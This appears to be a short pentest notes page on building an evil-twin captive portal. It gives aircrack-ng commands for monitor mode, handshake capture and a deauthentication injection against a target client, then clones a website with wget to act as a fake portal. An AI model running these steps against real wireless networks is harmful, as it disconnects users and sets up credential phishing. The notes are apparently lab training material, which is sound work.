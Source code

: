 # Captive Ports


## Commands

## Commands

* Run [setup](../../setup.md) first

### Capture some data

```bash
# Start monitor mode
sudo airmon-ng start wlan0

# Start a screen session with a horizonal split screen

# Start monitor mode but with filters and output saved to PCAP.
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap wlan0mon

# Do one deauth injection attack while still monitoring
sudo aireplay-ng -0 1 -a $BSSID -c $CLIENT wlan0mon

# Wait for the four-way handshake to appear in airodump-ng window.
# Stop airodump-ng when it appears
qq
```

### Build the Captive Portal

```bash

# Install the dependencies to build our captive port website
sudo apt-get install apache2 libapache2-mod-php

# Use the premade one
wget -r -l2 https://www.megacorpone.com
```


### Set up Network

```bash

sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up
```


## References

* [Wiki](https://en.wikipedia.org/wiki/Captive_portal)